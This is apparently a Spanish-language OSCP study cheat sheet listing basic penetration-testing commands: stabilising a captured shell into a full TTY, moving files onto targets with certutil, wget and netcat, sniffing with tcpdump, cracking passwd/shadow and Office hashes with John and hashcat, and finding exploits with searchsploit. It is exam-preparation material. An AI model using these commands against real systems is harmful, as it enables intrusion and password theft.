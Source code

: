  

####Tratamiento de la TTY[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#tratamiento-de-la-tty)

script /dev/null -c bash # Lanza pseudoconsola

[ctrl+z] # Suspende la shell actual

stty raw -echo

fg # Recupera la shell suspendida

reset # Reinicia la configuración de la terminal

xterm # Especifica el tipo de terminal

export TERM=xterm # Asigna xterm a la variable TERM

export SHELL=bash # Asigna bash a la variable SHELL

stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>

Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a

#### 

Lanzar una TTY Shell con Python[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#lanzar-una-tty-shell-con-python)

python -c 'import pty; pty.spawn("/bin/sh")'

#### 

Descompresión[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#descompresion)

#.tar

tar -xf archive.tar.gz

#.gz

gzip -d file.gz

#.zip

unzip file.zip

#### 

Comparación de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#comparacion-de-archivos)

diff -c scan-a.txt scan-b.txt

comm scan-a.txt scan-b.txt

#### 

Transferencia de archivos[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#transferencia-de-archivos)

#HTTP

#Servidor

python3 -m http.server

python -m SimpleHTTPServer

#Cliente

certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt

wget http://<SERVER_IP>/file.txt

​

#FTP

#Servidor

python3 -m pyftpdlib

#Cliente

ftp <SERVER_IP>

​

#Netcat

#Servidor

nc 10.10.14.2 4242 < file.tgz

#Cliente

nc -lvnp 4242 > file.tgz

#### 

Sniffing[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#sniffing)

tcpdump -i tun0 icmp -n

#### 

Cracking[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#cracking)

#Básico

john --wordlist=/usr/share/wordlists/rockyou.txt hash

hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt

​

#Cracking de contraseñas con passwd y shadow

unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

​

#Cracking de documentos encriptados de Office

office2john.py <Ruta_Documento> > <Archivo_hash>

john --wordlist=<Ruta_Diccionario> <Archivo_hash>

#### 

Búsqueda de exploits[](https://hack.xero-sec.com/apuntes-y-recursos-oscp/tecnicas-fundamentales#busqueda-de-exploits)

searchsploit <SOFTWARE>

searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit

searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo